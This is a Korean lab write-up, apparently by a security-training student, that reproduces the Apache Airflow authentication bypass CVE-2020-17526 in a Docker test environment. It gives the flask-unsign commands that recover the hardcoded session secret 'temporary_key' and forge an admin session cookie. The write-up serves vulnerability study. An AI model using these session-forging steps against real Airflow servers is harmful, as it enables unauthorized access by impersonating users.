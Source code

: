 # Apache Airflow Authentication Bypass (CVE-2020-17526)

화이트햇스쿨 3기 32반 김나희

## 1. 요약
- Apache Airflow는 오픈소스 워크플로우 관리 플랫폼으로, 언제 어떤 작업을 실행할지 미리 정해 자동으로 돌려주는 프로그램이다. 기본적으로 인증 기능이 비활성화되어 있지만, 관리자가 webserver.authenticate=True로 활성화할 수 있다.
- Airflow 1.10.13 이전 버전에서는 세션 정보를 서명하는 데 사용되는 비밀 키가 temporary_key 라는 고정된 값으로 설정되어 있었다. 따라서 공격자가 이를 악용해 임의의 사용자로 가장하여 인증을 우회할 수 있는 취약점이 존재했다.


## 2. 환경 구성
- git clone https://github.com/umsienrt/kr-vulhub.git
- cd kr-vulhub/CVE-2020-17526
- docker compose run airflow-init
- docker compose up -d
- Flask Unsign 설치 → 세션 키 해독 용도


## 3. PoC
![img1](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img1.png?raw=true)
- http://your-ip:8080 으로 접속하면 로그인 페이지가 나온다.

![img2](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img2.png?raw=true)
- curl -v http://localhost:8080/admin/airflow/login
- Set-Cookie→session에서 세션 키 정보를 알 수 있다.

![img3](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img3.png?raw=true)
- 개발자 도구 → Application → Cookies → http://127.0.0.1:8080 에서 전체 세션 키 정보를 확인할 수 있다.

![img4](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img4.png?raw=true)
- flask-unsign -u -c  세션 키 값
- flask-unsign을 이용해서 세션 키를 해독하면 ‘temporary key’ 가 나온다.

![img5](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img5.png?raw=true)
- flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}”
- user_id가 1인 새 세션을 생성한다.

![img6](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img6.png?raw=true)
- 개발자 도구에서 session의 value값에 앞서 새롭게 생성된 세션 값을 삽입한다.


## 결과
![img7](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img7.png?raw=true)

